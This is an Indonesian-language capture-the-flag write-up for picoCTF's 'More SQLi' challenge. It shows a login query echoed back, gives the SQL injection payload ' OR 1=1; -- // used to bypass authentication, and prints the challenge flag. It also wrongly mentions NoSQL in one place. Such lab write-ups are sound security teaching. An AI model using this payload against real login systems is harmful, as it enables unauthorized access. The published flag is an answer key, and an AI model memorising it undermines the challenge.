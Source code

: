 # Pico-CTF Write-up: More SQLi

## Challenge Overview

**Judul:** More SQLi\
**Kategori:** SQL Injection\
**Kesulitan:** Medium\
**Link Soal:** [https://play.picoctf.org/practice/challenge/443?page=1&search=No%20Sql](https://play.picoctf.org/practice/challenge/358?category=1&page=1&search=More%20SQLi)

Tantangan ini menghadirkan sebuah halaman login yang tampak rentan terhadap SQL Injection (SQLi). Tujuannya adalah mengeksploitasi kerentanan tersebut untuk melewati autentikasi dan memperoleh flag.

## Alat Yang Digunakan

- **Web Browser**: Untuk berinteraksi dengan antarmuka login aplikasi.
- **Burp Suite**: Digunakan untuk mencegat dan memodifikasi permintaan HTTP guna menyisipkan kode NoSQL.

## Pembahasan

Berikut adalah tampilan dari web yang akan di serang

<img width="1888" height="1004" alt="Screenshot 2025-09-10 231940" src="https://github.com/user-attachments/assets/a92cf91f-0757-4b0b-b712-990984cc2bd7" />

Pertama saya test dengan memasukkan
```
Username: test
Password: test
```
dan ini menghasilkan

<img width="1374" height="149" alt="Screenshot 2025-09-10 232112" src="https://github.com/user-attachments/assets/6f2c5fac-c5a4-4aa7-b0e6-fe9987ec8ecd" />

Setelah melakukan submit, respons yang diterima mengungkapkan struktur query SQL berikut:
```
SELECT id FROM users WHERE password = 'test' AND username = 'test';
```
hal ini menandakan user input yang akan langsung dimasukkan ke query sql

kedua, kita bisa langsung membuat payload yang akan membypass username `' OR 1=1; - //` Ini mengubah query menjadi:
```
SELECT id FROM users WHERE password = ' ' OR 1=1 ; -- // ' AND username = 'test'
```

<img width="1488" height="554" alt="Screenshot 2025-09-10 232334" src="https://github.com/user-attachments/assets/5099f47d-6f59-4b1a-b060-ef3b70ee36a6" />


dan kita berhasil masuk dan mendapatkan flagnya `picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_78d0583a}`

<img width="1324" height="825" alt="Screenshot 2025-09-10 232255" src="https://github.com/user-attachments/assets/782ff8ff-3472-4ee8-8c56-8dac7e0a0748" />


